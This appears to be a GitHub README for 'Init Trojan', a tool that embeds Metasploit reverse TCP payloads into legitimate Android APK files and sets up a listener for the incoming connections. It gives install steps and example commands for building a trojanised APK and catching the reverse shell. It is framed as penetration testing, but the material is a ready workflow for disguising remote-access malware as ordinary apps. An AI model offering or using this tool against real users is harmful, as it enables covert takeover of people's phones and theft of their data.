


# Init Trojan
 
**A powerful tool for creating and managing reverse shell payloads with seamless listener setup.**

---

## Table of Contents
- [About the Project](#about-the-project)
- [Features](#features)
- [Prerequisites](#prerequisites)
- [Usage](#usage)
  - [1. Create Payload](#1-create-payload)
  - [2. Setup Listener](#2-setup-listener)
- [Screenshots](#screenshots)
- [Links](#links)

---

## About the Project

**Init Trojan** simplifies the process of creating and managing payloads for penetration testing. This repository contains two primary scripts:
1. **create_payload.py**: For generating a custom payload embedded in an Android APK.
2. **listener.py**: For setting up and running a Metasploit listener to capture incoming connections.

Both tools focus on providing user-friendly command-line interfaces with sleek aesthetics and detailed help instructions.

---

## Features

- **Payload Generation**: Bind reverse TCP payloads to legitimate APK files.
- **Automated Listener Configuration**: Configure and launch a listener via Metasploit.
- **User-Friendly CLI**: Intuitive argument parsing with usage examples and error handling.
- **Stylish Output**: Enhanced aesthetics with colored terminal outputs.

---

## Prerequisites

Ensure the following dependencies are installed on your system:

- **Python 3.x**
- **Metasploit Framework**
- **apktool** (for payload embedding)
- Python libraries:
  - termcolor

```
sudo apt-get install metasploit-framework apktool
pip install termcolor
```


---

## Usage

### 1. Create Payload
To generate a payload embedded in an APK file:

```
sudo python3 create_payload.py --lhost <YOUR_IP> --lport <PORT> --output_apk <OUTPUT_APK_PATH> --original_apk <ORIGINAL_APK_PATH>
```


Example:

```
sudo python3 create_payload.py --lhost 192.168.1.100 --lport 4444 --output_apk payload.apk --original_apk original.apk
```


### 2. Setup Listener
To configure and launch a listener for capturing reverse connections:

```
sudo python3 listener.py --lhost <YOUR_IP> --lport <PORT>
```


Example:

```
sudo python3 listener.py --lhost 192.168.1.100 --lport 4444
```


---

## Screenshots

### Payload Creation


### Listener Setup


---


## Links

- **GitHub Repository**: [Init Trojan on GitHub](https://github.com/inits5/)
- **Telegram Channel**: [Scripted Seer](https://t.me/scripted_seer)
